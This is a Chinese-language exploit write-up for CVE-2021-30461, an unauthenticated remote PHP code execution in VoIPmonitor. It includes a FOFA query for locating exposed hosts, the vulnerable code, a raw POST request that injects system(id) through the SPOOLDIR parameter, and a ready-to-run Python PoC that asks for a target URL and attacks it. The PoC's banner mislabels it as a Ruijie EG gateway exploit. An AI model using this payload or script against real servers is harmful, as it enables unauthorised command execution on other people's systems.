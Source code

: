 # VoIPmonitor 远程命令执行漏洞 CVE-2021-30461

## 漏洞描述

VoIPmonitor是“具有在Linux上运行的SIP RTP和RTCP VoIP协议的具有商业前端的开源网络数据包嗅探器”。

使用通过Web界面到达的用户提供的数据，允许未经身份验证的远程用户触发VoIPmonitor中的远程PHP代码执行漏洞。

## 漏洞影响

```
VoIPmonitor < 24.60
```

## FOFA

```
"VoIPmonitor"
```

## 漏洞复现

登录页面如下

![image-20220209130009649](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091300913.png)

index.php文件中的关键代码

```php
$setConfigurationTypeValue_rslt = array();
if(file_exists('config/configuration.php')) {
	$existsConfiguration = true;
	if(isset($_POST['recheck'])) {
		if(!empty($_POST['SPOOLDIR'])) {
			setConfigurationTypeValue__index('SPOOLDIR', $_POST['SPOOLDIR']);
		}
	}
```

传入参数 recheck 和 SPOOLDIR， 并将**SPOOLDIR** 写入 **config/configuration.php** 中

![image-20220209130028591](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091300813.png)

发送如下请求包

```plain
POST /index.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:86.0) Gecko/20100101 Firefox/86.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Accept-Language: en-US,en;q=0.5
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 49

SPOOLDIR=test%22.system%28id%29.%22&recheck=annen
```

![image-20220209130049113](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091300382.png)



成功执行命令

## 漏洞POC

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import base64
import requests
import random
import re
import json
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: 锐捷EG网关 cli.php RCE                                      \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/index.php"
    data = {"SPOOLDIR": "/tmp", "recheck": "annen"}
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded"
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False)
    except Exception as e:
        print("\033[31m[x] 请求失败:{} \033[0m".format(e))
        sys.exit(0)

    POC_2(target_url)

def POC_2(target_url):
    vuln_url = target_url + "/index.php"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded"
    }
    data = {"SPOOLDIR": "test\".system(id).\"", "recheck": "annen"}
    print("\033[36m[o] 正在执行命令 id .....\033[0m")
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False)
        if "uid=" in response.text:
            print("\033[36m[o] 成功执行 id, 目标存在漏洞.....\033[0m")
        else:
            print("\033[31m[x] 请求失败 \033[0m")
            exit()
    except Exception as e:
        print("\033[31m[x] 请求失败:{} \033[0m".format(e))
        sys.exit(0)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl   >>> \033[0m"))
    POC_1(target_url)
```

![image-20220209130112258](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091301601.png)